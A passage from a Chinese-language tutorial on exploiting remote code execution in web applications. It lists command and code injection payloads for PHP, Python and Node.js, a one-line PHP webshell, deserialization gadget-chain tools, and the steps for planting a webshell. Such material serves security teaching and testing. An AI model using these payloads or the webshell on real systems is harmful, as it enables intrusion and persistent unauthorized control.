 •  
注入 127.0.0.1 & dir c:\  
•  
注入 127.0.0.1 || whoami  
### 2. 代码注入的直接利用  
  
当应用程序通过 eval()  
、exec()  
 等函数将用户输入作为代码执行时，攻击者可以直接注入目标语言的代码。  
  
•**PHP：**  
  
•  
注入 phpinfo();  
 查看环境信息。  
•  
注入 system('ls -al /');  
 执行系统命令。  
•  
写入 WebShell：file_put_contents('shell.php', '<?php eval($_POST[cmd]); ?>');  
  
•**Python：**  
•  
注入 __import__('os').system('ls -al /')  
  
•**JavaScript (Node.js 后端)：**  
•  
注入 require('child_process').execSync('id').toString()  
### 3. 反序列化漏洞的利用链 (Gadget Chains)  
  
反序列化漏洞的利用并非直接注入代码，而是构造恶意的序列化数据，利用应用程序中存在的“**小工具链 (Gadget Chains)**  
”——即一系列在反序列化过程中会被自动调用或触发的方法或函数调用路径——最终达到执行任意代码的目的。这通常需要深入了解目标应用程序或其依赖库的源代码。  
  
•**常见的 Gadget Chain 发现：**  
 通常依赖于对流行框架和库的审计，如 Java 的 Apache Commons Collections、Fastjson，PHP 的 Guzzle、Monolog，.NET 的 TypeConfuseDelegate 等。  
•**利用工具：**  
 如 Java 的 Ysoserial、PHP 的 PHPGGC，这些工具预置了常见的 Gadget Chain。  
### 4. WebShell 植入与管理  
  
成功利用 RCE 漏洞后，攻击者通常会做的第一件事就是植入一个 **WebShell**  
。这是一个用 Web 脚本语言（如 PHP、ASP、JSP）编写的后门文件，它允许攻击者通过 HTTP 请求来执行任意命令、上传下载文件、管理数据库等，从而获得持久化的控制权。  
  
•**利用步骤：**  
  
1.  
通过 RCE 漏洞写入 WebShell 文件（例如，使用 echo  
 命令、文件操作函数）。  
2.  
通过 Web 浏览器访问该 WebShell。  
3.  
通过 WebShell 提供的界面或参数，远程执行命令。  
  
•**常见功能：**  
 文件管理、命令执行、数据库操作、端口扫描、内网穿透。  
  